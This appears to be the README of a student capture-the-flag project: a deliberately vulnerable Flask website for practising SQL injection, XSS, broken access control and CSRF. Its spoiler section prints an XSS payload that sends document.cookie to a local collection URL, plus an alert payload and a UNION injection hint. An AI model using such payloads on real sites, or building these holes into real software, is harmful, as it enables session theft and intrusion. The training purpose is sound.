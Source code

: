 # 2023 COMP6841 My awesome project
## Overview of attacks
Players may find that they can perform a bunch of cyber attackers to this vulnerable website. All the attacks can be found in OWASP top 10 [OWASP TOP10](https://owasp.org/www-project-top-ten/).
1. SQL Injection
    * Warm up, can you print out all users' names and passwords?
    * Shhhhh... there's a top secret in this website...
2. XSS (stored & reflected)
    * Stored XSS: typically refering to the XSS attack where malicious scripts are stored in the server(database), and executed on the user's browser.
    * Reflected XSS: unlike the stored XSS executing on the user's server, a reflected XSS attack executes on the server. Can you perform both XSS on /view-course page?
3. Broken access control
    * When selecing a course with pre-requisite and when you haven't satisfy all the requisite, the website will not allow you to select the course. However, can you bypass the restriction and add COMP9900 to your list?
4. CSRF
    * CSRF attack is when some malicious script or program causes user's browser to perform unwanted actions, normally without their consent. Can you write a script to change a logged-in user's password?


## Structure
The website is built from Python3 flask as the backend, with html/css frontend and postgreSQL database. Most of the frontend template is from [https://github.com/bearlike/Pixel-Portfolio-Webite].


## Getting started
```
mkdir myctf
cd myctf
git clone git@github.com:4Christinelh4/CTF.git
```
### Running pgsql in docker
To make player's life easier and to let them focus more on attacking the website, the pgsql database is on docker. Players do not need to install and config pgsql on their machines. Follow the steps:

1. Download and install docker on your machine [docker](https://www.docker.com/)
2. Build docker image
```
[docker build -t <image name> <path to the directory where the Dockerfile is in>]
docker build -t pgsqldocker .
```
3. Create the container
```
[docker run -d --name <name of your container> -p <host port:container port> <name of the image>]
docker run -d --name pgsqlctf -p 5044:5432 pgsqldocker
```
4. Go in the container as user postgres, where there the database is
```
docker exec -it pgsqlctf psql -U postgres
```

### Start the server
```
pip3 install -r ctf/requirements.txt
python3 ctf/app.py 5044
```
*Note that in previous step, port 5432 (the port where pgsql in docker is listening on) maps to port 5044 on host machine.*

## Spoiler alert 😈
### SQL injection 1 🌶 
### SQL injection 2 🥓 
- How to find out the name of the database? Try `Union` in pgsql. 
### CSRF 🚨
### Reflected XSS 🛸
- When you put "abcd" in the question form and submit, you will find the content you typed showing in the url. This can definitely be exploited. Try replace the "abcd" with 
    ```
    <script>document.location="http://127.0.0.1:5000/i-am-bad?q="%2Bdocument.cookie</script>
    ```
    and see where you are redirected. 
### Stored XSS 🥞
- Hmmmm, maybe try using 
    ```
    <script>alert("the course is poorly designed")</script>
    ```
    in any comment box :D
### Broken access control 🗝

## Limitations
This website is designed for cyber security learners to perform attacks. I planned to make a version that protect the website from all the above attacks, for example, with CSRF tokens implemented and sanitizations of user inputs. However, the version is not finished due to the time limit. 